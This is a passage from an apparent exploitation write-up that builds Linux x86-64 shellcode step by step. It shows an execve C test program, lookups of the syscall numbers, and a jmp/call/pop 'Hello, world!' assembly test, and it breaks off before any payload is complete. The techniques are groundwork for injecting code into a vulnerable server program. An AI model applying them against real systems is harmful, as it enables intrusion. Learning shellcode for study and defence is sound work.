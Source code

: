 ```c
  // and a 0 to denote the end
  char *argv[2];
  argv[0] = "/bin/ls";
  argv[1] = 0;

  // Execute it...
  execve(executable, argv, 0);

  return 0;
}
```
I then built and ran this and it gave me a listing of the current directory:
```
> gcc -o ls-test ls-test.c 
> ./ls-test 
ls-test  ls-test.c  shellcode-test  shellcode-test.c  shellcode-test.i64
```
Now we need to create a set of assembly language instructions to mimic what this program does. I don't know whether the program on the server is 32-bit or 64-bit, so I can try both. If we assume 64-bit first, we should use `syscall` to to call a system function (like `execve()`). To do this we need to place the 64-bit system call number into `RAX`.

For 32-bit we should place the system call number into `EAX` and use `int 0x80` instead to make the call into the kernel.

We can find both the system call numbers with:
```
> cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve
#define __NR_execve 59
#define __NR_execveat 322
> cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep execve
#define __NR_execve 11
#define __NR_execveat 358
```
We can see the the 64-bit system call number is 59, and the 32-bit version is 11.

Now we can start writing an assembly language file. We'll start with a 64-bit version. We know it ends with:
```asm
mov rax, 59   ; Set the system call number for execve()
syscall       ; Run our execve()
```
We now sidestep for a moment to try something else, writing a message to the screen. This is so we can test accessing strings from within our shellcode. 

We need to make sure the message is in the .text section and not in the .data section so it can be encoded as part of our shellcode program. This is done by putting the string as part of a function. That function calls our main function, placing the return address on the stack. This means we can get the address of the data by popping from the stack. Here's a `Hello, world!` program testing that:
```asm
# Hello World test
         global _start
         section .text

_start:  jmp dataFunc


main:    pop rsi                       ; RSI needs to contain the message address
         mov rax, 1                    ; System interrup for 'write'
         mov rdi, 1                    ; Use stdout
         mov rdx, 14                   ; Number of bytes
         syscall
         mov rax, 60                   ; Now exit
         xor rdi, rdi                  ; with status 0
         syscall
         
```